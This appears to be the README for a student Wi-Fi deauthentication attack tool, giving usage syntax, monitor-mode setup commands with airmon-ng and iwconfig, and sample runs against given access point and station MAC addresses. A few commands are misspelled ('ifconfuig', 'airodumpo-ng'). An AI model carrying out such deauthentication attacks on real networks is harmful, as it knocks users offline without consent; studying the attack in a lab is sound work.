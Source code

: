 <h1>Deauth_Attack</h1>

<h3>Usage</h3>
syntax : deauth-attack [interface] [ap mac] [[station mac] [-auth]]<br>
sample : deauth-attack mon0 00:11:22:33:44:55 66:77:88:99:AA:BB<br>

<h3>Before Execute</h3>
sudo ifconfuig wlan0 down<br>
sudo iwconfig wlan0 mode monitor<br>
sudo airmon-ng check kill<br>
sudo airmon-ng start wlan0 6<br>
sudo iwconfig wlan0 channel 6 #<br>
sudo ifconfuig wlan0 up<br>
채널 정보는 sudo airodumpo-ng wlan0로 확인 가능<br>

<h3>Sample</h3>
sudo ./deauth-attack wlan0 00:0A:F5:E7:92:50<br>
sudo ./deauth-attack wlan0 00:0A:F5:E7:92:50 9c:28:b3:f0:70:3d<br>
sudo ./deauth-attack wlan0 00:0A:F5:E7:92:50 9c:28:b3:f0:70:3d -auth<br>

<p>https://gitlab.com/gilgil/sns/-/wikis/deauth-attack/report-deauth-attack</p>
